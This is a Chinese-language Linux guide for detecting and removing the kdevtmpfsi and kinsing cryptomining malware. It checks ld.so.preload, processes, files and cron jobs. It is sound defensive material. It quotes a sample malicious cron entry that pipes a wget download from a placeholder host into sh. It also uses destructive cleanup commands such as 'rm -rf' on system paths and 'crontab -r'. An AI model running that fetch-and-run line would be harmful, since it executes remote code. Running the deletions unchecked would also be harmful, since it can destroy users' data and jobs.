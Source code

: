 > **查看隐藏病毒进程的linux配置文件**

```
ls /etc/ld.so.preload
```

查看恶意配置文件`ld.so.preload`是否存在

> **删除隐藏病毒进程的linux配置文件**

```
rm -rf /etc/ld.so.preload
```

若恶意配置文件ld.so.preload存在，删除此文件

> **查看CPU**

```
top
```

查看是否存在挖矿病毒kdevtmpfsi和kinsing，有则说明服务器中毒

> ** 查看病毒进程**

```
ps -aux | grep kinsing

ps -aux | grep kdevtmpfsi
```

查看是否存在挖矿病毒kdevtmpfsi和kinsing，有则说明服务器中毒

> **查找病毒文件**

```
find / -name "kdevtmpfsi"

find / -name "kinsing"
```

获取病毒文件所在目录

> **进入病毒文件所在目录删除病毒文件**

```
rm -rf /tmp/kdevtmpfsi

rm -rf /var/tmp/kdevtmpfsi

rm -rf /etc/kinsing
```

请按实际情况病毒所在的位置删除

> **删除病毒进程**

```
ps -aux | grep kdevtmpfsi |grep -v grep|cut -c 9-15 | xargs kill -9

ps -aux | grep kinsing |grep -v grep|cut -c 9-15 | xargs kill -9
```

> **查看定时任务**

```
crontab –l
```

若存在类似“/bin/sh -c wget -q -O - http://xxx.xxx.xxx.xxx/xxx.sh | sh > /dev/null 2>&1（一般为黑客定时任务）”的定时任务，请删除此定时任务

> **删除定时任务**

```
crontab –r
```

请在不影响业务正常运行的情况下，按实际情况删除

> **最终排查**

```
crontab –l

ps -aux | grep kinsing

ps -aux | grep kdevtmpfsi

find / -name "kinsing"

find / -name " kdevtmpfsi "
```

若上述命令都没有病毒相关信息，则说明病毒删除完成
